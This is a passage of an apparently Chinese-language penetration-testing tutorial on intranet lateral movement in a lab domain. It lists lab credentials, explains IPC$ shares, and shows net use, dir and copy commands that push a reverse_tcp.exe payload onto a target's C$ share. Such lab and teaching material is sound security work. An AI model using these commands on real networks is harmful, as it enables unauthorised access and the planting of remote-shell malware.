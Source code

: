 ```yaml
---
title: 内网横向移动
date: 2023-09-03T15:29:52+08:00
updated: 2023-09-13T18:06:41+08:00
categories: 
- 渗透测试
- 内网体系建设
---
```


# 内网横向

## 环境搭建

攻击机kali:192.168.14.131

域内机器PC方便测试我添加了两张网卡，一张同通向kali，一张通向域内机器DC，用蚁剑管理，方便横向测试

```
IP1 :192.168.14.110
IP2 :192.168.30.20
```

域控主机DC:192.168.30.10

```
域管:
Administrator:uu2fu3o@admin
域用户:
uu2fu3o:!qaz@WSX
域:
hack.com
```

## 横向移动中的文件传输

### 利用IPC$进行网络共享

https://xz.aliyun.com/t/11783

`IPC$(Internet Process Connection)`是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，也就是两个进程之间可以利用它产生数据交互，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。

执行net share获取到windows默认开启的网络共享，通过已控主机搭建IPC$服务链接内网主机，能够直接访问内网资源等

**利用条件**

远程主机开启了IPC服务

远程主机的135和445端口开放

```shell
net use  \\<IP/Hostname>\IPC$ <password> /user:<Username>  #建立连接
dir \\IP\C$  #列出目标的C盘
copy .\reverse_tcp.exe \\IP\C$  #将脚本复制到目标机器的C盘下
```
